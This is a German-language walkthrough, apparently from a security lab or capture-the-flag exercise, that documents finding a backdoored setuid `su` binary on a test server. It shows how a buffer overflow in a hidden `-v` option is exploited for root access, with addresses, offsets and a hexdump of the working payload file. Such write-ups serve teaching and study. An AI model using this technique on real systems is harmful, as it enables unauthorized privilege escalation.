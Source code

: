 ## Dokumentation des Vorgehens zur Lösung der Aufgabe
### Allgemeine Informationen sammeln

1. Die gegebene IP anpingen -> Server ist erreichbar
1. HTTP-Request -> es läuft kein HTTP-Server`
1. `nmap` anwenden: Port 22 (ssh) ist offen
1. Login ist möglich
1. `uname -a`: Allgemeine Informationen zum System: Linux arch 4.5.4-1-ARCH #1 SMP PREEMPT x86_64 GNU/Linux
1. Logs versucht einzusehen: No Permissions
1. Installierte Programme einsehen und analysieren: __30 Minuten__ 
1. Berechtigungen anschauen: Dabei fiel auf, dass das Änderungsdatum der `su`-Binary von den anderen abweicht: Zufall
1. Vermutung: Rootkit in der Binary.
1. Einlesen zum Thema Rootkits: [^1][^2][^3]
1. `file` angewendet: su: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a6fdad0603136d4b68ee933c322f7908bbbb775e, stripped
1. `ldd` angewendet: keine Auffälligkeit
1. `su` ausgeführt: keine Auffälligkeit
1. Einlesen zum Thema Stackoverflow: [^4]


### Genauere Analyse
1. Fuzzing auf `su` angewendet: ab einer gewissen Länge -> bash: command not found
 1. Selbes verhalten auf Host-System: Ansatz verworfen
1. `Strings` angewendet:   
    Auffälligkeit:   
    `5f23 %#08lx` => Einbeziehung des ELF-Adressraumes: 0x405f23: __1.3 Stunden__
1. `su --help` ausgeführt: Auffälligkeit -> es gibt ein `-v --verbose` Flag. Dieses Flag wird in der manpage nicht erwähnt.
1. `su -v` ausgeführt: keine Auffälligkeit
1. `su -v 4` ausgeführt: keine Auffälligkeit: user 4 does not exist
1. `strace` ausgeführt: Geht nur bis zur Eingabe des Passworts
1. `strace` auf su prozess attachen: No permissions
1. Den `strace` output mit dem des Host-Systems verglichen __1.7 Stunden__
1. Mit GDB debuggen: Keine Neuen Informationen: __1 Stunde__
1. Mit Disassembler statisch analysiert (radare2 v.0.10.2)
 1. Main-Wrapper auflösen um die richtige Main-Methode zu finden
 1. Die `richtige` Main Funktion im Assembler analysiert: __6.5 Stunden__
1. `getopt`-Funktion suchen -> 0x4041e6  
    Auffälligkeit: `getopt`-Parameter: `v` erlaubt einen optionalen Parameter
1. `su -vx` ausgeführt: Es wird eine Adresse ausgegeben -> 0x7fffffffeaf0
1. ASLR (Address Space Layout Randomization) ist ausgeschaltet:  
    ```
    $ cat /proc/sys/kernel/randomize_va_space
    0
    ```  
    Auffälliger String könnte die Adresse einer wichtigen Stelle sein.
1. Original `su`-Quelltext angeschaut: Switch-Case über die Parameter __3 Stunden__
1. Mittels Disassembler die Stelle suchen, an der der Adressen-String benutzt wird:   
    0x40416d -> Parameter der `printf`-Funktion an 0x404177.  
    Stellt den '-v'-Fall des Switch-Cases dar.
1. `-v`-Case: nach der Ausgabe  wird eine Funktion aufgerufen:  
    Aufruf: 0x4041e6  
    Funktion: 0x40c2e1
1. Diese Funktion macht File-Handling-stuff.
 1. Zunächst vermutet, es handelt sich nicht mehr um den `-v`-Case.
1. `su -vDatei.txt` ausgeführt: Segmentation fault: __2.0 Stunden__
1. Herausfinden, wie groß die Datei mindestens sein muss, um einen Segmentation fault auszulösen:   
    137 Zeichen; vielleicht sind aber noch weitere Bytes durch Variablen belegt, bevor Base-Pointer und Instruction-Pointer kommen:  
    144 Zeichen bis Base-Peointer: __11.5 Stunden__
1. Mittels der Analyse im Disassembler eine Stelle suchen, die ausgenutzt werden kann: execvp gefunden: 0x404777: __1 Stunde__
1. Die Adresse des Exec-Befehls an Datei.txt anhängen: Keine Veränderung.
1. Analyse der Adress-Ausgabe: Der Basepointer wird ausgegeben.
1. Die Ausgabe von `-v` ist der Basepointer: Dieser muss gesichert werden.
1. Basepointer vor der `execvp`-Adresse in die Datei.txt einfügen. __3 Stunden__
1. `su -vDatei.txt` ausführen: keine Änderung
1. `su -vDatei.txt ls` ausführen: `ls` wird mit den normalen User-Rechten ausgeführt. 
1. Weitersuchen im Assembler: Funktion oberhalb des Exec-Aufrufs genauer ansehen:  
    Benutzt: 0x404735  
    Funktion: 0x402dd9: 
    __4 Stunden__
1. Die Funktion ruft `setuid` und `setgid` auf (jeweils 0 als Argument):  
    Ersetzen der Exec-Adresse in der Datei mit der Adresse des Funktionsaufrufs (s.o.)
1. `su -vDatei.txt ls` ausführen: `ls`: wird als root ausgeführt __30 Minuten__ 


### Hexdump der Datei

```
$ hexdump --no-squeezing --canonical Datei.txt
00000000  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000010  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000020  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000030  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000040  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000050  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000060  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000070  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000080  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000090  10 eb ff ff ff 7f 00 00  35 47 40                 |........5G@|
0000009b
```

[^1]: de.wikipedia.org/wiki/Rootkit
[^2]: en.wikipedia.org/wiki/Rootkit
[^3]: www.sans.org/reading-room/whitepapers/linux/linux-rootkits-beginners-prevention-removal-901
[^4]: www-scf.usc.edu/~csci530l/downloads/stackoverflow_en.pdf
